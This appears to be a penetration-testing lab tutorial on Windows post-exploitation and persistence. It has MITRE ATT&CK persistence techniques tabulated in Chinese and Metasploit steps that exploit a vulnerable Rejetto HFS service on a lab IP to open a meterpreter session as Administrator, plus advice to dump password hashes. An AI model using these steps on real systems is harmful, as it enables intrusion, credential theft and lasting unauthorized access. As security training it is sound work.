 Once you gain access to a target system, the next logical step is to perform local enumeration. Try and identify as much information as you can about the system that you’ve just compromised. You can then go ahead and start transferring the files that you need to transfer. The next logical step would be to elevate your privileges if you obtained a non-elevated session. The reason you need to elevate your privileges before establishing persistence is primarily because persistence technique will typically require administrative access in order for them to be performed correctly.

If we can’t modify the system, probably the best option then is to perform a hash dump and obtain the hashes of the user accounts on that system so that you can always authenticate legitimately back on that target system that you’ve compromised.

[MITRE ATT&CK](https://attack.mitre.org/)

[Persistence](https://attack.mitre.org/tactics/TA0003/)

| 账户操纵 | 攻击者可能会操纵帐户以保持对受害系统的访问。帐户操作可能包括保留对手对已泄露帐户的访问权限的任何操作，例如修改凭据或权限组。这些操作还可能包括旨在破坏安全策略的帐户活动，例如执行迭代密码更新以绕过密码持续时间策略并保留已泄露凭据的生存期。 |
| --- | --- |
| 登录脚本 （Windows） | 攻击者可以使用在登录初始化时自动执行的 Windows 登录脚本来建立持久性。Windows 允许在特定用户或用户组登录到系统时运行登录脚本。这是通过将脚本的路径添加到注册表项来完成的。 |
| 创建帐户 | 攻击者可以创建一个帐户来保持对受害者系统的访问。通过足够的访问级别，创建此类帐户可用于建立不需要在系统上部署持久远程访问工具的辅助凭据访问。 |

We’re going to exploit a vulnerable service on the target system. Once we’ve gained access to the target system, we can then establish persistence. If we need to elevate our privileges, we will do that before we establish persistence.

Target IP Address : 10.2.31.23

```bash
nmap -sV 10.2.31.23
```

```bash
msfconsole
search rejetto
use 0
```

That’s 32 bit meterpreter payload. At this point, we still don’t know what the target system operating system architecture is. So it’s always safe to utilize the 32 bit meterpreter payload. 

```bash
show options
set RHOSTS 10.2.31.23
exploit
```

```
meterpreter > sysinfo
```

We can also identify our current user and the privileges associated with that user.

```
meterpreter > getuid
Server username: WIN-OMCNBKR66MN\Administrator
```

We’re currently the administrator user. It means we do not need to elevate our privileges and we can move to the next phase, which is establishing persistence.
